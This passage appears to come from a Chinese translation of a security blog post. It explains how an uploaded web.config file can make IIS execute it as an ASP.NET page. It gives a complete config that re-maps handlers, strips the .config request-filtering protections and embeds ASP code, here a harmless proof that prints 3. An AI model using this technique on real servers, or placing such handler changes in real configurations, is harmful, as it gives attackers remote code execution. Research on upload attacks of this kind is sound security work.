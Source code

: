我在这篇博文中列出了四个例子，如下所示。

#### 1.1 将web.config作为ASPX页面执行

这与第一篇文中提到的技术非常相似，但是当我们在应用程序的根目录中上传`web.config`文件时，我们有更多的控制权，我们可以使用托管处理程序将`web.config`文件作为`ASPX`页面运行。 以下`web.config`文件显示了一个示例：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <handlers accessPolicy="Read, Script, Write">
            <add name="web_config" path="web.config" verb="*" type="System.Web.UI.PageHandlerFactory" modules="ManagedPipelineHandler" requireAccess="Script" preCondition="integratedMode" />
            <add name="web_config-Classic" path="web.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\Microsoft.NET\Framework64\v4.0.30319\aspnet_isapi.dll" requireAccess="Script" preCondition="classicMode,runtimeVersionv4.0,bitness64" />
        </handlers>
        <security>
            <requestFiltering>
                <fileExtensions>
                    <remove fileExtension=".config" />
                </fileExtensions>
                <hiddenSegments>
                    <remove segment="web.config" />
                </hiddenSegments>
            </requestFiltering>
        </security>
        <validation validateIntegratedModeConfiguration="false" />
    </system.webServer>
    <system.web>
        <compilation defaultLanguage="vb">
            <buildProviders> <add extension=".config" type="System.Web.Compilation.PageBuildProvider" /> </buildProviders>
        </compilation>
        <httpHandlers>
            <add path="web.config" type="System.Web.UI.PageHandlerFactory" verb="*" />
        </httpHandlers>
    </system.web>
</configuration>
<!-- ASP.NET code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

之后我们可以浏览`web.config`文件以将其作为`ASP.NET`页面运行。 然而`XML`内容也可以从网上访问。 也许更容易上传另一个带有允许扩展名的文件，例如`.config`、`.jpg`或`.txt`文件，并将其作为`.aspx`页面运行。
